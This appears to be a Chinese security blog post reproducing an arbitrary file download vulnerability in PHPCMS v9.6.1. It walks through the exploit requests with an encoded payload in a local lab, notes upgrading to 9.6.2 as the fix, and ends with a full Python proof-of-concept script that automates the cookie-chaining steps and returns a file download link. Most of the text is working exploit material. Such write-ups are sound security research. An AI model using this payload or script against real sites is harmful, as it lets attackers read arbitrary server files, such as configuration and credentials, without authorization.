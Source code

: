 ```yaml
---
title: PHPCMSv9.6.1任意文件下载漏洞复现
date: 2019-02-25 20:32:30
tags:
	- PHPCMSv9  
	- 任意文件下载 
	- PHP
categories: 漏洞复现
---
```


## 0x00 环境介绍

- 系统：Windows 10
- Phpstudy 2018
- CMS：PHPCMS v9.6.1
  - PHPCMS v9各版本下载地址：`http://download.phpcms.cn/v9/9.6/`

<!-- more -->

## 0x01 安装PHPCMS v9

首先下载PHPCMS v9.6.1并解压，将解压得到的install_package目录拷贝到网站根目录下。

启动phpstudy，访问`http://localhost/install_package/install/install.php`进入安装界面。

依次点击下一步进行安装即可，数据库密码phpstudy默认是root/root。

## 0x02 漏洞利用

**1.获取Cookie：xxx_siteid**

首先访问`http://localhost/install_package/index.php?m=wap&c=index&a=init&siteid=1`并获取Cookie。

![](phpcms9-6-1\siteid.png)

**2.获取Cookie：xxx_att_json**

访问`http://localhost/install_package/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D1%26catid%3D1%26s%3D./phpcms/modules/content/down.ph%26f%3Dp%3%25252%2*70C`，并将上一步获取的siteid的Cookie值作为POST字段userid_flash的值一同提交，然后从响应消息中找到xxx_att_json的Cookie值。

![](phpcms9-6-1\att_json.png)

要点：

> - `src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D1%26catid%3D1%26s%3D./phpcms/modules/content/down.ph%26f%3Dp%3%25252%2*70C`是payload，是我们要下载的文件。此处我们使用的payload实现要下载的文件是`/phpcms/modules/content/down.php`。

**3.获取下载链接**

访问`http://localhost/install_package/index.php?m=content&c=down&a=init&a_k=`，并将上一步得到的xxx_att_json的值作为a_k参数的值。

> `http://localhost/install_package/index.php?m=content&c=down&a=init&a_k=61e9vtz6uMRQ6iACSVg06WBUXXslD430-hA7DDHM_5cMyGqOkQDeAPBXQURI2hDzEa-inCgLSjD2Ru66mQASlP3Qd06DqBJfeSuqMlZHaTOYO_VdhkWCDz8TD8SEQ3qoqho4ILiuVMSp7f_j05YY57YruJ1uIdHMbqaTyfClLBPv95lNtaRHQszhD9GZ0QEh8g`

访问过后，会返回一个带有下载按钮的页面，点击下载按钮即可下载。

![](phpcms9-6-1\download.png)

## 0x03 遇到的问题

得到下载连接访问页面，点击下载会报参数错误。

解决办法：

> - `https://blog.csdn.net/vindraz/article/details/12579211`
> - `http://www.cmsyou.com/support/172.html`

## 0x04 修复建议

升级PHPCMS版本到9.6.2或以上。

## 0x05 PoC

- Github：`https://github.com/sh4douu/PoC-and-Exp/blob/master/phpcmsv961.py`
- 代码：

```python
import requests
import re
import sys

headers = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64)"}

def get_cookie1(host):
    url_1 = host + "/index.php?m=wap&c=index&a=init&siteid=1"
    print("[*] 请稍等...正在获取Cookie:")
    reponse = requests.get(url_1,headers=headers)

    
    try:
        pattern = r".*siteid"  #phpcmsv9 siteid字段格式为：xxxx_siteid,使用该正则匹配
        for item in reponse.cookies.keys():
            res = re.findall(pattern,item)

            if res:
                cookie1 = reponse.cookies.get(res[0])
                print("[+] 获取到Cookie1:")
                print("[+] " + res[0] + ":" + cookie1)
                return cookie1

    except:
        print("[-] 获取Cookie1失败!")

def get_cookie2(host,cookie1):
    #该payload实现下载phpcms/modules/content/down.php文件 
    payload = "src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3Dphpcms%2fmodules%2fcontent%2fdown.ph%26f=p%3%252%2*77C"
    
    #payload = "src%3Dpad%3Dx%26i%3D1%26modelid%3D1%26catid%3D1%26d%3D1%26m%3D1%26f%3D%2Ep%25253chp%26s%3Dindex%26pade%3D"
    #payload = "src%3Dpad%3Dx%26i%3D1%26modelid%3D1%26catid%3D1%26d%3D1%26m%3D1%26s%3Dindex%26f%3D%2Ep%25253chp%26pade%3D"

    url_2 = host + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&" + payload
        
    data = {"userid_flash":cookie1}  #将第一次得到的cookie作为"userid_flash"的值，并以POST方式提交
    reponse = requests.post(url_2,data=data,headers=headers)

    try:
        pattern = r".*att_json" #phpcmsv9 att_json字段格式为：xxxx_att_json,使用该正则匹配
        for item in reponse.cookies.keys():
            res = re.findall(pattern,item)
            if res:
                cookie2 = reponse.cookies.get(res[0])
                print("[+] 获取到Cookie2:")
                print("[+] " + res[0] + ":" + cookie2)
                return cookie2

    except:
        print("[-] 获取Cookie2失败!")

def help():
    print("-------------------------------------------------------------------------")
    print(" [*] 使用说明：给出index.php之前的部分")
    print("       Usage: python3 phpcmsv9.py http://host:port")
    print("     Example：python3 phpcmsv9.py http://localhost/phpcms")
    print("-------------------------------------------------------------------------")


if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()
        sys.exit(0)

    host = sys.argv[1].strip()
    cookie1 = get_cookie1(host)
    cookie2 = get_cookie2(host,cookie1)

    if cookie2:
        print("[+] Open link to download file: ")
        print("[+] " + host + "/index.php?m=content&c=down&a=init&a_k=" + cookie2) #最终文件下载连接
```

